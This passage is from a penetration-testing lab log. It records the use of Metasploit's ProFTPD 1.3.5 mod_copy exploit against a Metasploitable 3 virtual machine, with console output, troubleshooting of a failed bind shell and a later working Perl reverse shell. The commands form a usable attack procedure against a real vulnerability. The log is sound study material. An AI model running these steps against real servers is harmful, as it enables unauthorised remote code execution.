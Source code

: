 ```

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

And once again I tried the exploit: 
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[*] 172.28.128.3:80 - Executing PHP payload /1F2P3.php
[*] Started bind TCP handler against 172.28.128.3:4444
[*] Exploit completed, but no session was created.
```

No more errors but a session was not created. I tried it with other payloads but none of them worked to fix the issue.  
Steps to troubleshoot:  
- Checked that my firewall was turned off.
- Double checked all the IP addresses.
- Tried switching the listening port on my end (set LPORT random_numbers).
- Tried running the exploit multiple times and afterwards using the `debug` command to show previous logs. No errors related to these runs.
- Used the `check` command which returned that the target is vulnerable to this exploit. 
- Rebooted my computer and the target

The connection worked in a way because the .php files appeared in the Metasploitable 3 target folder as expected, as can be seen from the following:

<img src="../Screenshots/l5port21exploitFiles.png">

I will give up for now and continue on this later.  

**8th of May 2022:**  

Time to conitinue. The problem was using bind-shells. After using the perl reverse shell with LHOST set to my own IP the connection worked like a charm. See commands and settings from the following:  
```
msf6 > search ProFTPD 1.3.5   # The targeted service at port 21 as seen from the nmap scan

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_modcopy_exec  2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_modcopy_exec

msf6 > use 0
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 172.28.128.3     # Set the target
RHOSTS => 172.28.128.3
```